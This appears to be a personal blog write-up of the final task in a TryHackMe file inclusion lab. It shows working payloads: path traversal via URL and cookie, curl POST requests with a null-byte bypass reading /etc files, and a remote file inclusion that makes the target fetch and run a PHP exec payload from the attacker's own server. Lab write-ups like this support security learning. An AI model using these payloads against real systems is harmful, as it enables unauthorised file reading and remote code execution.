 ```yaml
---
title: "THM: File Inclusion Writeup"

date: 2022-02-20 16:26

# Created: February 20, 2022 4:26 PM
# last-updated: February 20, 2022 10:42 PM
tags: 
- Cybersecurity
- File Inclusion
- THM

layout: post
headerImage: false
category: blog
---
```


## Hi there !

I was doing the [File Inclusion](https://tryhackme.com/room/fileinc) room on TryHackMe. Most of the tasks, you can follow the instructions; however, I found the last one is challenging, so I thought of do the write-up on the last task—Task 8, giving some my thought process. Let's get started!

## Task 8:

1. Capture Flag1 at `/etc/flag1`
    
    If you try to get the file from the input, nothing is responding back. You can also try on the URL `[http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1](http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1)` , there is nothing responded. Well, if you look at the `Network` tab on the Firefox and see that it's calling with `GET` method. As the hint suggests: try using `POST` method. Alright, in my case, I'm using the `curl` on command line:
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall1.php -X POST -d "file=/etc/flag1"
    ```
    
    Hooray, the flag has been revealed!
    
2. Capture Flag2 at `/etc/flag2`
    
    Let's go to `[http://MACHINE_IP/challenges/chall2.php](http://MACHINE_IP/challenges/chall2.php)` You will see as the attached below:
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled.png)
    
    There is no input form, hmm, try adding the parameter to the URL 🤔 Let's try, `[http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2](http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2)` Nothing happens.
    
    Let's look at the `Development tool`, something interesting might be there. Look at the `Network` tab, the request is calling with `GET`; what if it's a `POST` , I try `curl` as the previous exercise, but still nothing happens. Hmm, the hint says that **"Checks the cookie"**, alright, it shows `THM=Guest` , let's try changing to `THM=admin` (you can change the cookie on `Storage` tab), then refresh the page... Oo-oh, something's changed!
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%201.png)
    
    It has been revealed that there's the vulnerability on `cookie`, let's try changing to `/etc/flag2` There is some sort of input validation for `include()` function there, see below.
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%202.png)
    
    Fine, let's do the path traversal: `THM=../../../../etc/flag2` And we got it! I'm not gonna show the flag 🤭
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%203.png)
    
3. Capture Flag3 at `/etc/flag3`
    
    Let's go to the challenge 3 page. There is an input, so try getting `../../../../etc/flag3`
    
    ![Untitled]({{ site.baseurl }}/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%204.png)
    
    Seems like it sanitizes the input and adds `.php` to the file name, smart! But, what if we request it using `curl` with `POST` Let's try.
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall3.php -X POST -d "file=/etc/flag3%00"
    ```
    
    You will get a warning that the output can mess your terminal, so don't forget to pass the output into a file! and let's look at your output file! 😎
    
4. Gain RCE in **Lab #Playground** `/playground.php` with RFI to execute the `hostname` command. What is the output?
    
    Follow the `Task 6: Remote File Inclusion - RFI` lab, but instead of `<?PHP echo "Hello THM"; ?>` , you will do
    
    ```php
    <?PHP print exec('hostname'); ?>
    ```
    
    Before calling our `cmd.txt` , don't forget to launch the local server. You can use `http.server` in Python3:
    
    ```python
    $: python3 -m http.server 8080
    ```
    
    In my case, I'm using port 8080; when I call via the url, it will be `[http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt](http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt)` There we go! The flag is on the screen.
    

We’re done 🎉
